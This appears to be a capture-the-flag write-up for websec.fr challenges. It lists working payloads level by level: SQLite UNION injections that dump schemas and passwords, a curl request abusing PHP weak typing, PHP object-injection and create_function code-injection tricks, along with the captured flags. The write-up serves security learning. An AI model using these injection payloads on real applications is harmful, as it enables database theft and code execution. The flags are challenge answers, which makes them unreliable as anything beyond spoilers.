

# Websec challenges [Link]()

## Level 01
### To trigger error
`;#`
### To get schema
`'0  UNION 1,sql FROM sqlite_master WHERE type='table'; --`

### to  get flag
`0  UNION SELECT 1,password FROM users WHERE username='levelone';`
WEBSEC{Simple_SQLite_Injection}

## Level 17

### Exploit -> php weak type.
`curl -X POST http://websec.fr/level17/index.php -d "flag[]=&submit=Go" -H 'Content-Type:application/x-www-form-urlencoded'`

## Level 04

Use the script in [level04.php](level04.php) to generate a serialized SQL. Here we will set the query to our liking so when the entity is destructed when the code leave the scope we get the flag we are looking for. 

```php
 public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }

        $ret = $this->execute ();
        if (false !== $ret) {
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }

 }
```

> this isn't possible if we hadn't an echo inside the _destruct method.

## Level 25

The parse_url function returns an empty string if we pass a bad url. How bad the url we should be passing you might say ! 
Well something like this:
`http://websec.fr/level25/index.php?page=flag&adfa=asf:9000`

  

## Level 28

`WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}`

## Level 02

=> Payload `0 uniunionon selselectect password from users where id=1`

`WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`

## Level 08

[Payload](level08.php)
`WEBSEC{BypassingImageChecksToRCE}` 

## level 10

Lose equal comparison between a hash and a string. Passing a string that starts with `0e` makes it interpreted as a float.

FLAG: `WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}`

## level 11

We have the following SQL query
`SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;`

We have two sources of injection and some kind of sanitization going: 

```php
   $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }

 if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }
```

The flag here is at the id=1 and in the column enemy. 
Okay going to the SQL query schema. We find out that we can avoid using the `AS` keyword by directly declaring our target table inside `()` which will get evaluated before the query.

So our final payload will be:

`user_id=10&table=(select+10+id,+enemy+username+from+costume)&submit=Submit`

WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}

## level 13

Here we are exploiting a common programming error. In other languages like c++ we will have an error for trying to accessing an empty part of the memory.

```php
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }
```

After that it's passed to a vulnerable query. That we can exploit to union our table.
```php
  $selector = implode(',', array_unique($tmp));
	
  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  
  WHERE (user_id in (" . $selector . "));";

  $stmt = $db->query($query);
```

So all we need to do is fake the `$tmp` length by passing values that will get deleted and thus the last element won't be reached. 


`0,0,1,0)) UNION SELECT  1,1,user_password from users; --`

WEBSEC{HHVM_was_right_about_not_implementing_eval} 


## level 15

[create_function exploit Reference](https://bugs.php.net/bug.php?id=48231)
`};echo $flag;//`
